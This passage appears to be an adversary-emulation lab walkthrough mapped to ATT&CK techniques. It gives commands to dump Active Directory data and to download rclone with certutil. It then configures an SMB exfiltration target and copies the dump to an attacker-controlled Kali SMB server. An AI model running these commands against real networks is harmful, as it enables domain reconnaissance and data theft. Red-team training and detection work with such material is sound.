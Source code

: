**Step 2.3**
```PowerShell
[ITSERVER:PowerShell] C:\temp\sh.exe --memcache --zipfilename c.zip --outputdirectory C:\temp\
```
ATT&CK Techniques: `T1087.001` `T1087.002` `T1560` `T1059.001` `T1482` `T1615` `T1106` `T1201` `T1069.001` `T1069.002` `T1018` `T1033`

### Exfiltrate AD dump

To exfiltrate the AD data collection, we will use `rclone`.

Let's download `rclone` executable on the system first:

**Step 2.4**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe
```
ATT&CK Techniques: `T1105`

Then we'll need to create a config file for `rclone` and put it in `C:\Temp\r.conf`:

Note: Please make sure your file will not have a double extension `r.conf.txt` which can happen with notepad

**Step 2.5**
```
[ss]
type = smb
host = 10.0.1.30
user = user
pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8
```
ATT&CK Techniques: `?`

In the meantime, on our Kali machine, we will create a `loot` folder and start an SMB server with it:

```bash
[KALI:bash] mkdir loot
[KALI:bash] impacket-smbserver -smb2support -username user -password pass123 data ./loot
```

Now that SMB server is running and our `rclone` is ready, let's copy the AD dump file from Windows to Kali:

**Step 2.6**
```PowerShell
[ITSERVER:PowerShell] C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Temp\<c.zip-filename> ss:data --no-check-dest
```
ATT&CK Techniques: `T1048`

### Import AD dump into Bloodhound and find path to Domain Admins

Before starting Bloodhound, make sure that Bloodhound is installed and Neo4j is running
